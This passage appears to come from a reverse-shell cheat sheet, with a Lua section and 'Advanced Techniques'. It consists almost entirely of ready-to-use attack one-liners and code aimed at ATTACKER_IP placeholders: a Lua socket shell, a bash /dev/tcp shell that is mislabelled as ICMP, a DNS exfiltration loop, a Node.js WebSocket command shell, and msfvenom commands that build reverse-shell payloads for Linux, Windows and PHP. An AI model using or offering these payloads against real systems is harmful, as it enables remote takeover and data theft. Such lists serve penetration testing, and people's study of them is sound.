 
## Lua

### Basic
```lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('ATTACKER_IP','PORT');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

---

## Advanced Techniques

### ICMP Reverse Shell
```bash
sudo bash -c 'bash -i > /dev/tcp/ATTACKER_IP/PORT 0<&1 2>&1 &' && ping -c 1 ATTACKER_IP
```

### DNS Exfiltration
```bash
while true; do host $(bash -c 'read -p "shell> " cmd && echo $cmd' | base64).ATTACKER_IP; done
```

### WebSocket Reverse Shell
```javascript
// Node.js WebSocket shell
const WebSocket = require('ws');
const ws = new WebSocket('ws://ATTACKER_IP:PORT');
const { exec } = require('child_process');

ws.on('open', () => {
    ws.send('Connected');
});

ws.on('message', (data) => {
    exec(data.toString(), (error, stdout, stderr) => {
        if (error) ws.send(error.message);
        if (stderr) ws.send(stderr);
        ws.send(stdout);
    });
});
```

### Metasploit Payloads
```bash
# Linux
msfvenom -p linux/x86/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f elf > shell.elf

# Windows
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f exe > shell.exe

# PHP
msfvenom -p php/reverse_php LHOST=ATTACKER_IP LPORT=PORT -f raw > shell.php
```
